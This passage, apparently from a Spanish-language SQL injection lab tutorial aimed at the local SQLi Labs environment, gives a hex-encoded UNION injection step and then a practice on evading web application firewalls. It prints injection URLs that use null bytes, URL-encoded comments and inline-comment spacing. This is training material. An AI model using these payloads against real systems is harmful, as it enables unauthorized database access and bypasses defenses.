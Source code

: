    ```sql
   SELECT HEX('admin');
   ```

   Resultado:

   ```sql
   61646D696E
   ```
   
2. Utiliza este valor en SQLi Labs:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,0x61646D696E,3 --+
   ```
   
3. Si `admin` aparece en pantalla, la evasión fue exitosa.

📌 **💡 Consejo:** Usa **CyberChef** o **Burp Suite** para convertir datos a hexadecimal fácilmente.

## **🔹 PRÁCTICA 14: Evadir WAFs con Caracteres Alternativos**

## 📌 **Objetivo:** Bypassear Web Application Firewalls (WAFs) utilizando caracteres especiales.

### **🔹 Explicación**

Algunos WAFs bloquean `' OR 1=1 --` pero permiten variaciones como:

- `%00` (NULL byte)
- `+` (Espacio en blanco)
- `%23` (Comentario en URL)

### **🔹 Paso a Paso**

1. Usa `%00` para truncar la consulta:

   ```
   http://localhost/sqli-labs/Less-1/?id=1%00' OR 1=1 --+
   ```

2. Prueba con 

   comentarios URL `(%23)` equivale a `#` en SQL):

   ```sql
   http://localhost/sqli-labs/Less-1/?id=1' OR 1=1%23
   ```
   
3. Si está bloqueado, usa 

   codificación de espacios `(+)`  o `(%20)`:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=1'/**/OR/**/1=1--+
   ```

📌 **💡 Consejo:** Usa **Burp Suite** para probar diferentes técnicas de evasión.
